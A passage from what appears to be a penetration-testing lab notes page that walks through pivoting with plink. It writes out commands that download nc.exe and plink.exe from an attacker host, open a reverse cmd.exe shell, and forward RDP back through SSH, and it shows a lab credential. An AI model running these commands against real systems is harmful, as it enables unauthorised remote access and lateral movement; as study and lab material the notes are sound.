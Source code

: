 ```powershell
# transfer binary
powershell wget -uri http://192.168.45.235/nc.exe -O c:\windows\temp\nc.exe

# send reverse shell
C:\Windows\Temp\nc.exe -e cmd.exe 192.168.45.235 4444
```
{% endtab %}

{% tab title="2. Remote Port Foward" %}
Cath the reverse shell, transfer the `plink` binary, and create the remote port forward.

{% code overflow="wrap" %}
```bash
# Catch the reverse shell
$ nc -lvnp 4444
listening on [any] 4444 ...
connect to [192.168.45.235] from (UNKNOWN) [192.168.177.64] 49432
...
# Transfer binary
c:\Windows\Temp>powershell wget -uri http://192.168.45.235/plink.exe -O plink.exe
# Create remote port forward
c:\windows\system32\inetsrv>C:\Windows\Temp\plink.exe -ssh -l x7331 -pw kali -R 127.0.0.1:9833:127.0.0.1:3389 192.168.45.235
```
{% endcode %}
{% endtab %}

{% tab title="3. Confirm & Use" %}
Confirm that the setup is up and running and use it to RDP directly to `MULTISERVER03`.

```bash
# Confirm remote port forward
$ sudo netstat -ntlp | grep 9833
tcp    0  0 127.0.0.1:9833  0.0.0.0:*   LISTEN  944/sshd-session: x
# Use RDP from Kali
$ xfreerdp /u:rdp_admin /p:'P@ssw0rd!' /v:127.0.0.1:9833
```
{% endtab %}
{% endtabs %}

<figure><img src="https://x7331.gitbook.io/~gitbook/image?url=https%3A%2F%2F3960676229-files.gitbook.io%2F%7E%2Ffiles%2Fv0%2Fb%2Fgitbook-x-prod.appspot.com%2Fo%2Fspaces%252FmjLkek16kB60c2WFd5lf%252Fuploads%252FSBZbvIVUMaqEgAjBAtDr%252Fport_forward_plink_1.png%3Falt%3Dmedia%26token%3D94d1bac6-2ae7-4d60-b9d3-7d42bac24b4c&#x26;width=768&#x26;dpr=4&#x26;quality=100&#x26;sign=91c8a048&#x26;sv=2" alt=""><figcaption></figcaption></figure>

When we want to use `plink` within a non-interactive session, e.g. WinRM,  which prevents us from answering the `ssh` prompts, including trusting our ssh hostkey, we need pass the command's arguments are a list:

{% code overflow="wrap" %}
```powershell
*Evil-WinRM* PS C:\Users\apache.ERA\Documents> Start-Process .\plink.exe -ArgumentList '-R 33060:127.0.0.1:3306', 'x7331@192.168.45.157', '-pw', 'kali', '-batch', '-hostkey', '"ssh-ed25519 255 SHA256:12ofigkgaUScFuNMCS/+bKdRsfu0rvILCdF+P8OzsH4"' -NoNewWindow
```
{% endcode %}

We can also automate SSH client key acceptance in non-TTY shells on Windows using Plink with `cmd.exe /c echo y | plink.exe`, bypassing manual prompts.
